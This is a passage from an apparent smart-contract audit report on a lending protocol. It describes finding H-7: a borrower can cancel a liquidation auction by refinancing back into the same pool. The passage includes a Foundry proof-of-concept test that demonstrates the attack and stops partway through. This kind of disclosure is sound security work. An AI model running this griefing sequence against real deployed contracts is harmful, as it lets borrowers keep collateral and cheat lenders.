 ```solidity
	assert(poolOustandingLoansAfter > poolOustandingLoansBefore);
}
```

**Recommended Mitigations:**

Lender.buyLoan() must check poolId parameter does not match the selling poolId.

### [H-7] Allowing the borrower to maintain control of their collateral indefinitely without resolving the debt.

**Description:** The identified issue is that the borrower can grief an auction by repeatedly refinancing their `loan within the same pool`, resetting the loan's auction timeline and preventing their collateral from being seized.

The function allows refinnacing to the same pool, never checks that the loan being refinnaced currently is auctioned or not and resets `loan.auctionStartTimestamp` effectively cancelling any auction.

```solidity
loans[loanId].auctionStartTimestamp = type(uint256).max;
loans[loanId].auctionLength = pool.auctionLength;
```
By refinancing back into the same pool, these parameters are reset, effectively stopping any ongoing liquidation auction.

**Proof Of Code:**

```solidity
function test_borrowerGriefAuctionViaRefinance() public{
    test_borrow();

    // accrue interest
	vm.warp(block.timestamp + 364 days + 12 hours);

	// find the poolId which will auction the loan
	bytes32 poolId = lender.getPoolId(lender1, address(loanToken), address(collateralToken));

	// kick off auction
	vm.startPrank(lender1);

    uint256[] memory loanIds = new uint256[](1);
	loanIds[0] = 0;

	lender.startAuction(loanIds);
	vm.stopPrank();

	// attacker is the borrower who wants to prevent their
	// loan from being auctioned, can stop the auction by
	// refinancing back into the same pool. They can do this
	// as soon as the auction is launched to prevent their
	// collateral from ever being seized
	vm.startPrank(borrower);

    // prepare the payload
	Refinance memory r = Refinance({
		loanId: 0,
		poolId: poolId,
		debt: 100*10**18,
		collateral: 100*10**18
	});
	Refinance[] memory rs = new Refinance[](1);
	rs[0] = r;

	lender.refinance(rs);
    vm.stopPrank();
    // verify that a buyer can't buy the auctioned loan
```